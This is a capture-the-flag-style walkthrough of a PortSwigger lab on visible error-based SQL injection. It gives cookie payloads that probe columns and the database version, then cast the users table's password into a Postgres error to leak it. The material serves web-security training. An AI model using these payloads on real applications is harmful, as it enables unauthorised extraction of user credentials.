



# Visible error-based SQL injection

**Lab Url**: [https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)



## Analysis

Like the previous lab, this lab also contains a tracking cookie. But this time, errors are returned on response. We can verify them by appending an apostrophe `'' at the end of the tracking cookie.



Next, we have to determine the number of columns the query returns and which database the application uses.

```bash
TrackingId=YOUR-TRACKING-ID'+ORDER+BY+1+--
```

```bash
TrackingId=YOUR-TRACKING-ID'+UNION+SELECT+version()+--
```

Now that we know which database the application is running and how many columns the query returns. We can move forward and craft a payload that exposes sensitive data on error messages.

```bash
TrackingId=YOUR-TRACKING-ID'%3BSELECT+CAST((SELECT+password+FROM+users+LIMIT+1)+AS+int)+--
```

Hmm, we got an error message we were not quite expecting. We got an `Unterminated string literal` error indicating that the application might be truncating our query.

## Solution

We have to shorten our payload without breaking its functionality. First, we need to remove the `tracking id` itself to make up some space. From the above payloads, we know that the application is running Postgres. So we can use `::int` shorthand.

```bash
TrackingId='+%3B+SELECT+(SELECT+password+FROM+users+LIMIT+1)::int+--
```



Now we can see that the password is being returned in the error message.


